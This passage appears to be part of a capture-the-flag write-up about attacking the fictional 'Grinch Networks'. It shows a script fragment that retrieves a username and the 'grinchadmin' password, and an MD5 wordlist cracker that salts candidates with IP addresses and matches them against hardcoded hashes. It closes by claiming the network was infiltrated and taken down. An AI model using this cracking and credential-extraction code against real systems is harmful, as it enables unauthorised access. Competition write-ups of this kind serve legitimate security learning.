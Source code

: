 ```python


username = get_username()
print("\nUsername is: {}".format(username))
password = get_password("grinchadmin")
print("\nThe password is: {}".format(password))
```

## md5cracker.py
```python
import hashlib
import sys

if len(sys.argv) != 2:
    print("(-) Usage: {} <WORDLIST>".format(sys.argv[0]))
    sys.exit(1)

wordlist = []

with(open(sys.argv[1], "r", encoding='ISO-8859-1')) as fp:
    for x in fp:
        wordlist.append(x.strip())

hashs = [
    "5f2940d65ca4140cc18d0878bc398955",
    "2814f9c7311a82f1b822585039f62607",
    "5aa9b5a497e3918c0e1900b2a2228c38",
]

ips = [
    "203.0.113.33",
    "203.0.113.53",
    "203.0.113.213"
]

for word in wordlist:
    for ip in ips:
        combined_word_ip = word+ip
        calculate_hash = hashlib.md5(combined_word_ip.encode('utf-8')).hexdigest()
        if calculate_hash in hashs:
            print("Got a hit for word: {} on hash: {} for ip {}".format(word, calculate_hash, ip))
```


* * *

## Impact

We have successfully infiltrated the Grinch Networks and taken them down! Effectively saving the holidays!
